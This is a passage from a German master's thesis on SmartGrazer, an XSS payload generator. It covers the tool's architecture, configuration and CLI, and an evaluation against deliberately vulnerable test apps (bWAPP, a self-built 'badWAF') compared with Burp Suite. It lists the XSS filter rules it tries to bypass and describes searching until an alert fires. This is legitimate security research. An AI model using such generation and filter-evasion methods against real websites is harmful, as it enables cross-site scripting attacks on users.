	
\includegraphics[width=.95\textwidth]{contents/images/SmartGrazerWorkflowPhase2}
	\caption{SmartGrazer: Programmablauf Phase 2}
	\label{fig:SmartGrazer-workflow-phase2}
\end{figure}

\FloatBarrier

In Phase drei (Abbildung \ref{fig:SmartGrazer-workflow-phase3}) beginnt die eigentliche Konstruktion eines reflektierenden bzw. ausführbaren Payloads.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=.95\textwidth]{contents/images/SmartGrazerWorkflowPhase3}
	\caption{SmartGrazer: Programmablauf Phase 3}
	\label{fig:SmartGrazer-workflow-phase3}
\end{figure}

\FloatBarrier

\subsection{Komponentenübersicht und Klassendiagramm}\label{ssec:components}

In Abbildung \ref{fig:component-diagram} sind die wichtigsten Komponenten der Applikation und deren Verbindungen zueinander abgebildet. Durch das Aufteilen eines Testlaufs in viele kleine Teilaufgaben, entstanden im Laufe der Implementierung die gezeigten Hauptkomponenten. Wie später vorgestellt wird, teilen sich diese in mehrere Klassen auf. Als Hauptaufgaben eines Testlaufs wurden neben der Verarbeitung von Benutzereingaben, die Konfiguration, die Generierung, die Kommunikation mit dem SUT, die Analyse, Mutation und Anpassung von Payloads identifiziert.

Jede Komponente, die eine Teilaufgabe übernimmt, wurde mit einem Namen versehen, um eine Verständnisgrundlage zu schaffen. Grund hierfür ist, dass einige Komponenten identisch aufgebaut sind, jedoch verschiedene Funktionsweisen aufweisen.

Anhand des vereinfachten Klassendiagramms (Abbildung \ref{fig:simple-class-diagram})  ist erkennbar, wie die identifizierten Komponenten implementiert wurden. Die Färbung der Komponenten wird hierbei in der Abbildung \ref{fig:simple-class-diagram} übernommen, sodass die implementierten Klassen den entsprechenden Komponenten zugeordnet werden können.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerComponentDiagram}
	\caption{Smartgrazer: Komponentendiagramm}
	\label{fig:component-diagram}
\end{figure}

Die in Abbildung \ref{fig:component-diagram} aufgeführte Generierungs-Komponente ``Smithy'' ist während der Implementierung in mehrere Klassen aufgeteilt worden. Wichtigsten Bestandteile sind die Elemente und deren Lebenspunkte, beide definiert durch die Klassen ``Element'' bzw. ``Life''. Verschiedene Payload-Generatoren sind durch die Klassen ``PayloadGeneratorFactory'', ``GeneratorGeneral'' und ``PayloadGenerator'' realisiert.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerSimpleClassDiagram}
	\caption{SmartGrazer: Vereinfachtes Klassendiagramm}
	\label{fig:simple-class-diagram}
\end{figure}

Die Klasse ``PayloadGenerator'' wird von drei Generatoren (Dharma, Smarty und Simpy) implementiert, welche durch die Namensgebung in verschiedenen Python-Modulen liegen. Hierdurch kann während der Laufzeit die richtige Klasse von der Fabrik geladen und instanziiert werden.

Die generierten Payloads setzen sich durch ein Zusammenspiel der Klassen ``Outbreak'', ``Attack'' und ``Grammar'' zusammen. aKlassen der Mutations-Komponente sind durch die gleiche Vorgehensweise realisiert wie die Generator-Klassen.
\FloatBarrier
\paragraph{Instanziierung via Fabric-Pattern}

Durch die Verwendung von mehreren Generator- und Mutations-Klassen ist die eigentliche Instanziierung als Fabrik-Entwurfsmuster realisiert. Dieses Muster ist besonders geeignet für Objekte, die zur Laufzeit initialisiert werden müssen. Im Falle der ``PayloadGeneratorFactory'' (Komponente: Smithy) wird während der Ausführung zwischen den Generatoren ``Dharma'' und ``Smarty'' gewählt. Während der Programmausführung wird über die Fabrik-Klasse ``Smithy'' mit der geladenen Generator-Klasse kommuniziert. In Abbildung \ref{fig:SmartGrazer-Fabric-Pattern} ist exemplarisch das Muster für die Generator-Klassen abgebildet.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=.9\textwidth]{contents/images/SmartGrazerFabricPattern}
	\caption{SmartGrazer: Generator-Klassen als Fabrik-Entwurfsmuster}
	\label{fig:SmartGrazer-Fabric-Pattern}
\end{figure}

Die Verwendung dieses Entwurfsmusters ermöglicht  ein einfaches Hinzufügen und Verwenden von zusätzlichen Generator-Implementierungen.

\FloatBarrier

\subsection{Initiierung}\label{ssec:initializing}

Zu Beginn eines Testlaufs werden alle benötigten Element-Objekte geladen und mit einem Startwert für deren Leben initiiert. Aus Erfahrung sind einige Elemente öfter bzw. besser für \ac{XSS}-Angriffe geeignet und können seinen höheren Startwert zugewiesen bekommen als Elemente mit selteneren Verwendung. 

Da Elemente eine wichtige Rolle für die Generierung von Payloads haben, können diese in besonders hohem Maß konfiguriert werden. Zum aktuellen Stand der Implementierung können Elemente durch drei Konfigurationsdateien angepasst werden.

\paragraph{config/smarty/elements.json} Liste aller verfügbarer Elemente mit Verwendungszwecken. Als Verwendungszweck werden hier die Element-Schlüssel aus den Angriffsmustern bezeichnet. Dies ist notwendig, da manche Zeichen mehrere Aufgaben bzw. Bedeutungen in Payloads besitzen können. Im Beispiel \ref{lst:element-example-with-usage} wurden dem ``/''-Zeichen insgesamt drei Verwendungen (Leerraum, Schrägstrich und dem Wert eines ``SRC''-Elements) zugewiesen.

\begin{lstlisting}[caption={SmartGrazer: Auszug der Konfigurationsdatei ``elements.json''},label=lst:element-example-with-usage]
...
"47": [
  "SPACE",
  "SLASH",
  "SRC_VALUE"
], ...
\end{lstlisting}

\paragraph{config/smarty/elements.life.json} Liste aller Elemente mit den entsprechenden Lebenspunkten beim Start des Programmaufrufs. In Beispiel \ref{lst:element-life-example} ist ein Ausschnitt der Konfiguration dargestellt. Oft verwendete Elemente, wie z.B. das ``video''-Tag sind hier mit den maximalen Lebenspunkten ausgewiesen. Weniger häufig verwendete Elemente werden dementsprechend mit weniger Leben initialisiert.
	
\begin{lstlisting}[caption={SmartGrazer: Auszug der Konfigurationsdatei ``elements.life.json''},label=lst:element-life-example]
...
"var": 50,
"video": 100,
"wbr": 25,
"onclick": 25,
"ondblclick": 25,
...
\end{lstlisting}

	
\paragraph{config/smarty/elements.mutator.json} Liste aller Mutationsklassen und den dafür erlaubten Elementen. Beispiel \ref{lst:element-mutator-example} zeigt die Konfiguration der Mutator-Klasse ``Uppy'' und die freigeschalteten Elementen.

\begin{lstlisting}[caption={SmartGrazer: Auszug der Konfigurationsdatei ``elements.mutator.json''},label=lst:element-mutator-example]
...
"uppy": {
  "enabled": true,
  "elements": [
    "TAG_HMTL",
    "TAG_JS",
    "TAG_SCRIPT",
    "EVENT",
    "TEXT"
  ]
},
...
\end{lstlisting}

Der Zeitpunkt der Mutation findet unmittelbar nach der Ziehung des verwendeten Zeichens bzw. der verwendeten Zeichenkette statt. Der mutierte Wert des Elements wird hierbei in einer eigenen Variable gespeichert, welche bei der Ausgabe des Element-Wertes ausgegeben wird. Falls bei der Analyse der Webseitenantwort der mutierte Wert nicht reflektiert wurde, werden die Lebenspunkte des Elements verringert. 

\subsection{Konfiguration und Programmaufruf}\label{ssec:configuration}

Die Konfigurationsdateien werden im \gls{JSON}-Format gepflegt. Dies hat den Vorteil, dass auf die eingelesenen Daten, während der Laufzeit zugegriffen werden kann - vergleichbar zu Objekten. Zusätzlich kann jede Konfigurationsoption beim Aufruf von SmartGrazer über die Option --overwrite für den aktuellen Aufruf geändert werden.

Das \ac{CLI} ist mit der Python-Erweiterung ``argparse'' realisiert. In Abbildung \ref{fig:smartgrazer-cli-help} ist die Hilfe-Seite der Anwendung dargestellt. Der Flag-Parameter -g generiert Payloads und gibt diese danach aus. Über den Parameter -x wird SmartGrazer eine \ac{SUT}-Konfiguration übergeben, für die ein funktionierender Payload ermittelt werden soll. Die Optionen -g und -x sind gegenseitig ausschließend, d. h. nur eine der beiden Optionen kann bei einem Aufruf ausgewählt werden. 

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerCLIHelp}
	\caption{SmartGrazer: Hilfe des Kommandozeilenprogramms}
	\label{fig:smartgrazer-cli-help}
\end{figure}

\FloatBarrier
Die Einstellungen für die Applikation und die enthaltenen Komponenten werden in der Datei ``config/config.json'' gepflegt.

Wird der Flag-Parameter ``-c'' angegeben, werden alle temporären Dateien vor dem Beginn der Generierung gelöscht. Durch Anhängen des ``--enableWebdriver''-Flags wird eine zusätzliche Testinstanz von SmartGrazer aktiviert. Diese führt dazu, dass SmartGrazer solange Payloads generiert, bis eine ``alert''-Box erzeugt werden konnte.

\subsubsection{Temporäres Überschreiben der Konfiguration}

Der ``--overwrite''-Parameter erwartet eine Schlüssel-Wert-Liste, welche mit einem Leerzeichen getrennt ist. Eine beispielhafte Anwendung dieses Parameters ist auf der Hilfe-Seite der Applikation aufgeführt.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.65\textwidth]{contents/images/JSONConfigOverwritePath}
	\caption{SmartGrazer: Auszug der Konfigurationsdatei ``config/config.json''}
	\label{fig:config-json}
\end{figure}

\FloatBarrier
Die Notation der Schlüssel-Wert-Paare ist hierbei identisch mit dem Pfad in der dazugehörigen JSON-Konfigurationsdatei, wie in Abbildung \ref{fig:config-json} zu sehen ist. Für die gegebenen Beispiele (``smartgrazer.imps.smithy.generator=smarty'' und\\ ``smartgrazer.imps.smithy.generate.amount=5'') ist für den Parameter ``--overwrite'' in Abbildung \ref{fig:config-json} der Baumpfad mit roter Farbe markiert. Die Zuweisung neuer Werte erfolgt mit einem Gleich-Zeichen. Getrennt werden Schlüssel-Wert-Paare mit einem Leerzeichen. Im gezeigten Beispiel wird der Generator ``dharma'' durch ``smarty'' ersetzt und die Anzahl an generierten Payloads von ``1'' auf ``5'' erhöht.

Neben der beschriebenen ``config.json''-Datei kann eine Konfiguration für jede beliebige Webseite angelegt werden. Optionen dieser Konfigurationsdatei können ebenfalls durch den ``--overwrite''-Parameter überschrieben werden.
 % (✔

\newpage
\chapter{Evaluation}\label{Evaluierung}

Im folgenden Kapitel werden die Ergebnisse der Evaluation von SmartGrazer und dem dazugehörigen kontextabhängigen, sowie dem kontextfreien Payload-Generator vorgestellt. Zunächst wird in Kapitel \ref{eval:BurpSuiteScanner} eine etablierte Anwendung für Websicherheitstest vorgestellt. Anschließend werden die verwendeten Testumgebungen in Kapitel \ref{eval:TestRuns} beschrieben. Danach werden die gesammelten Ergebnisse der Testläufe in Kapitel \ref{eval:ReflectedResultsTestRuns} vorgestellt. Zum Schluss werden in Kapitel \ref{eval:Conclusion} die Ergebnisse der getesteten Anwendungen verglichen, um die Stärken und Schwächen von SmartGrazer und dem Smarty-Generator zu erläutern.

\section{Burp Suite Scanner}\label{eval:BurpSuiteScanner}

Der Burp Suite Scanner wird bei Webseitentests zunächst zwischen die Webseite und den Webbrowser als Proxy geschaltet. Hierdurch können alle Anfragen vom Browser an die Webseite mitgelesen und zurückgehalten werden, was eine genaue Analyse der Anfragen bzw. Antworten ermöglicht.

Bevor die Webanwendung mit der Burp Suite getestet werden kann, muss die Konfiguration des Scanners an die Webseite angepasst werden. Hierzu definiert man zunächst den sogenannten ``Scope''. Dieser bestimmt, welchen Links der Scanner folgen darf, um nach Schwachstellen zu suchen. Wird der Scope zu ungenau definiert, wird der Scanner gegebenenfalls fremde Webseiten testen.

Ist der Scope definiert, kann der Tester im Browser alle zu testenden Links anklicken. Der Scanner prüft die angeklickten Seiten im Hintergrund auf Schwachstellen. Soll eine Webseite genauer untersucht werden, kann diese gesondert an das ``Intruder''-Modul der Testanwendung gesendet werden.

Die Burp Suite erkennt testbare Einstiegspunkte automatisch und markiert diese für den Test. Mit dem Intruder kann der Tester gezielt Payload-Listen für einzelne Parameter durchlaufen, um so weitere Schwachstellen zu finden (siehe Abbildung \ref{fig:BurpSuitebWAPPSniperSettings}).

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/BurpSuitebWAPPSniperSettings}
	\caption{Burp Suite: Konfiguration des Snipers}
	\label{fig:BurpSuitebWAPPSniperSettings}
\end{figure}

Um die Burp Suite als Proxy zu verwenden, muss der Browser mit der entsprechenden Proxy-Adresse konfiguriert werden. Standardmäßig läuft dieser Dienst unter der Adresse 127.0.0.1:8080.

\FloatBarrier
\subsection{Konfiguration}

Für die Evaluation wurde die Burp Suite so konfiguriert, dass diese nur nach reflektierten XSS-Schwachstellen sucht und dementsprechende Payloads verwendet. Die Liste der vorhandenen Typ 1 XSS-Angriffe (Abbildung \ref{fig:BurpSuitebWAPPIntruderSettings}) umfasst nach der Konfiguration insgesamt 20 Payloads.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/BurpSuitebWAPPIntruderSettings}
	\caption{Burp Suite: Konfiguration des Intruders}
	\label{fig:BurpSuitebWAPPIntruderSettings}
\end{figure}

\newpage

\section{Testdefinition}\label{eval:TestRuns}

\subsection{Erfolgs- und Abbruchkriterium}

Die durchgeführten Testläufe wurden jeweils auf fünf Minuten begrenzt, um eine endlose Ausführung zu vermeiden. 

\subsubsection{Testfall: reflektierte Payloads}

Im Fall der reflektierten Payloads werden solange Payloads gesucht, bis ein vollständig reflektierter Angriff generiert worden ist. Die hier vorgestellten Zahlen beziehen sich auf die Anzahl der getesteten Payloads bis zum ersten reflektierten Payload.

\subsubsection{Testfall: funktionierende Payloads}

Die Generierung von Payloads wird erst abgebrochen, bis der erste reflektierte, ausführbare Payload gefunden worden ist. Hierbei werden neben der Anzahl an Versuchen auch die Anzahl an reflektierten Payloads gezählt, die nicht ausgeführt wurden. Diese Zahl ist ua. ein Indiz für die syntaktische Richtigkeit der generierten Payloads. Durch unterschiedliche Browser-Implementierungen kann syntaktische Validität bei verschiedenen Browsern unterschiedlich interpretiert werden. Die Evaluation verwendete bei den Testläufen den Firefox-Browser bzw. den GeckoDriver aus dem Selenium-Framework\footnote{\url{https://github.com/mozilla/geckodriver/releases/tag/v0.19.0}}.

\FloatBarrier

\subsection{Testapplikationen}

\subsubsection{bWAPP}

\begin{figure}[htp] 
	\centering
	
\includegraphics[width=0.5\textwidth]{contents/images/bWAPPExampleImage}
	\caption{bWAPP: XSS-1 Testseite mit Pop-up}
	\label{fig:bWAPPExampleImage}
	\source Quelle: \url{http://itsecgames.blogspot.de/} 
\end{figure}

bWAPP\footnote{\url{http://itsecgames.blogspot.de/}} ist Teil des ``ITSEC Games'' Projekts und beinhaltet über 100 sogenannter Web Bugs. In der Evaluation dieser Arbeit wird ausschließlich gegen die Komponente für reflektiertes XSS getestet.

Wie gut die Webanwendung Benutzereingaben filtert, hängt vom gewählten Sicherheitslevel der Applikation ab. Hier kann zwischen Level 0 bis 2 gewählt werden. Wobei Level 0 keine Änderungen vornimmt. Level 1 die mittels der PHP-Funktion ``addslashes''\footnote{\url{http://php.net/manual/de/function.addslashes.php}} und Level 2 mit der PHP-Funktion ``htmlspecialchars''\footnote{\url{http://php.net/manual/de/function.htmlspecialchars.php}} Benutzereingaben filtert.

Als Zwischenschritt muss sich das zu testende Programm zunächst an der Seite eines Login-Formulars anmelden.

\FloatBarrier
\subsubsection{badWAF}

Um gezielte Testläufe produzieren zu können, wurde die Webanwendung ``badWAF'' im Rahmen dieser Masterthesis implementiert. Ziel der Anwendung ist vor allem die Simulation einer unvollständigen Validierung von Benutzerdaten und Ausgabenkodierung.

Entwickelt wurde eine einfache Webanwendung mit mehreren Seiten. Der Aufbau der einzelnen Seiten ist immer identisch, wie in Abbildung \ref{fig:BadWAFTestFormInputs} dargestellt. Gegeben ist ein Eingabefeld, ein Auswahlfeld für den Kontext und ein Button zum Abschicken der Form. Die bisherige Implementierung umfasst die Kontexte ``HTML'' und ''Attributwert'', sowie das Absenden der Parameter per GET-Methode.

\begin{figure}[htp] 
	\centering
	
\includegraphics[width=0.5\textwidth]{contents/images/BadWAFTestFormInputs}
	\caption{badWAF: Eingabeformular}
	\label{fig:BadWAFTestFormInputs}
\end{figure}

Das Auswahlfeld für den Kontext bestimmt, in welchem Kontext der gesendete Payload eingebettet wird. Bei der Auswahl des HMTL-Kontexts wird der Payload zwischen zwei div-Tags eingebettet. Im Falle der Attributwert-Auswahl wir der gesendete Wert dem ``value''-Attribut eines input-Tags zugewiesen. Die Abbildungen \ref{fig:BadWAFResultFilterHTML} und \ref{fig:BadWAResultFilterAttrVal} zeigen die Ausgabe des ``fdq''-Filters, welcher alle doppelten Anführungszeichen aus der Benutzereingabe entfernt.

\begin{figure}[htp] 
	\centering
	
\includegraphics[width=0.3\textwidth]{contents/images/BadWAFResultFilterHTML}
	\caption{badWAF: Antwortseite im HTML-Kontext}
	\label{fig:BadWAFResultFilterHTML}
\end{figure}

\begin{figure}[htp] 
	\centering
	
\includegraphics[width=0.2\textwidth]{contents/images/BadWAResultFilterAttrVal}
	\caption{badWAF: Antwortseite im Attributwert-Kontext}
	\label{fig:BadWAResultFilterAttrVal}
\end{figure}

\FloatBarrier
\subsubsection{Einzelfilter}
Jede dieser Seiten beinhaltet einen Filter, der einzelne Elemente aus Payloads entfernt. Die neun implementierten, einfachen Filter werden im Folgenden unter den Abkürzungen aus der unten aufgeführten Liste verwendet.

\begin{description}
	\item[fdq] Entfernen aller doppelten Anführungszeichen.
	\item[fsq] Entfernen aller einfachen Anführungszeichen.
	\item[fpb] Entfernen aller spitzen Klammern.
	\item[fbq] Entfernen aller Backticks.
	\item[fkjs] Entfernen aller Vorkommen des Schlüsselwortes ``javascript''.
	\item[fks] Entfernen aller Vorkommen des Schlüsselwortes ``script'.
	\item[fka] Entfernen aller Vorkommen des Schlüsselwortes ``alert''.
	\item[fts] Entfernen aller Vorkommen der Tags ``<script>'' bzw. ``</script>''.
	\item[fe] Filtern aller JavaScript-Events (Zeichenketten mit dem Muster: ``on....='').
\end{description}

\subsubsection{Kombinierte Filter}
Zu Beginn einer neuen Session wird die Webseite so initialisiert, dass fünf Filterkombinationen zufällig zusammengestellt werden. Bei jeder der fünf Kombinationen wird die Zahl der gewählten Filter um eins erhöht. Dementsprechend wird ein Payload gegen minimal zwei und maximal sechs kombinierte Filter getestet. Hierbei wird eine Kombination sowohl im HTML- als auch im Attributwert-Kontext für einen Payload verwendet.

\section{Ergebnisse}\label{eval:ReflectedResultsTestRuns}

\subsection{Reflektierte Payloads}
\subsubsection{badWAF}

\subsubsubsection{Einfache XSS-Filter}

%Die getesteten Verfahren konnten alle bei den einfachen XSS-Filtern erfolgreich Payloads ermitteln, die komplett reflektiert wurden.
Bei der Verwendung von einfachen XSS-Filtern konnten alle getesteten Verfahren erfolgreich Payloads ermitteln, die vollständig reflektiert wurden.
Alle drei Verfahren haben die meisten Versuche bei dem fpb-Filter benötigt, wie in Abbildung \ref{fig:BadWAFDiagramReflectedFilterHTML} dargestellt. Hierbei konnte die Burp Suite, mit 15 Versuchen, am schnellsten einen passenden Payload finden. Smarty hat, mit 63 Versuchen am längsten benötigt, um einen geeigneten Payload zu erzeugen.

\begin{figure}[htp] 
	\centering
